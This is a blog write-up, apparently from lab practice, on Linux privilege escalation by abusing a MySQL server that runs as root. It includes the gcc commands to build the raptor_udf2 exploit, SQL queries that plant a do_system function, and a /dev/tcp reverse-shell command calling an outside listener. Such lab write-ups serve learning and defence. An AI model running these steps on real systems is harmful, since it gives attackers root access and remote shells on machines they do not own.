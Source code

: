 ```yaml
---
title: Service Exploits - Mysql
author: Sujit Suryawanshi
date: 2020-11-20 15:10:00 +0800
categories: [Privilege Escalation, Linux]
tags: [privilege-escalation]
---
```


![Desktop View]({{ "/assets/img/privilege-escalation/main.png" | relative_url }})

---

<strong><span style="color:#ff5555">Introduction</span></strong>

---

Hey all, Hope everyone doing fine. A week ago me and my colleague started doing some practice and some R&D on different techniques of Privilege Escalation. So in this blog series, I'm gonna explain some privilege escalation techniques that I did in HackTheBox, TryHackMe and other platforms.

Privilege Escalation is important to increase your impact on target system as you will have more privileges to do more stuff and to compromise other machines or systems in that network. Basically when you get Shell or Remote Code Execution on any system, You'll get shell as that service which you have exploited. For example, If you exploit LFI with PHP Log Poisoning or SQLi then you'll get shell as either www-data or postgres. (in most cases but it depends on how application is configured)
So in this case you'll need to escalate your privileges to gain more access to system in case if you want to compromise other systems in network or install kernel/os level backdoors etc.

Let's start then...

<span style="color:#ff5555">This blog is meant for educational purposes only.</span>

---

<strong><span style="color:#ff5555">Enumeration</span></strong>

---

The first Privilege Escalation method in this series is **Service Exploits** in which we are going to exploit services running as root but have access to normal user.

In our case the service mysql is running as root. We checked this using below command.

```
ps aux | grep root | grep mysql
```

![Desktop View]({{ "/assets/img/privilege-escalation/service-exploits-1.png" | relative_url }})

In above command, We are looking at running processes with ps command and doing grep on root so that we will get processes which are running as root and then we doing grep again as mysql to see if mysql is running with root user or not.

If mysql is running without password or if you get mysql password in any files stored on server like db.php, dbconnection.php then you can use this Privilege Escalation technique to get root.

Let's exploit this flaw and get root.

---

<strong><span style="color:#ff5555">Exploitation</span></strong>

---

For exploitation, We are going to use this exploit which is available on [ExploitDB](https://www.exploit-db.com/exploits/1518).

```
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

![Desktop View]({{ "/assets/img/privilege-escalation/service-exploits-2.png" | relative_url }})

In above screenshot, We compiled the exploit with gcc and created shared object file, Then we logged in mysql as root user and ran below queries.

```
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

Here, On the first line we are changing our database as mysql. Then creating a new table and inserting our shared object file that we are created with gcc.
In the next query we have dumped all data into file by giving absolute path and then we created a function as do_system to run system commands.

After this process, We are going to use do_system function to get another reverse shell on different terminal.

```
select do_system('sh>&/dev/tcp/10.9.65.255/1337 0>&1');
```

![Desktop View]({{ "/assets/img/privilege-escalation/service-exploits-3.png" | relative_url }})

As you can see in above screenshot, We started listening for incoming connections on port 1337 using netcat on another terminal and used **/dev/tcp** to get reverse shell as root.

<span style="color:#ff5555">**Thanks for reading this writeup and all suggestions are welcome.**</span>
